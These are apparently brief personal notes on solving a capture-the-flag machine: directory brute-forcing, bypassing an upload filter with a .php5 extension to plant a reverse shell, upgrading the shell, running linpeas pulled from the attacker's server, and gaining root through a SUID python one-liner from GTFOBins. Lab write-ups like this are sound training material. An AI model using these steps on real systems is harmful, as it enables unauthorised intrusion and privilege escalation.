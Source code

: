 dirb to find /panel/
panel is uploads
php5 works, php doesnt
pentest monkey reverse shell
upgrade shell python -c 'import pty; pty.spawn("/bin/bash") 
ctrl+z stty.raw echo &&fg ; reset ; xterm
usr/var/www /user.txt
linpeas from host via local server
python gtfobins
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
/root/root.txt
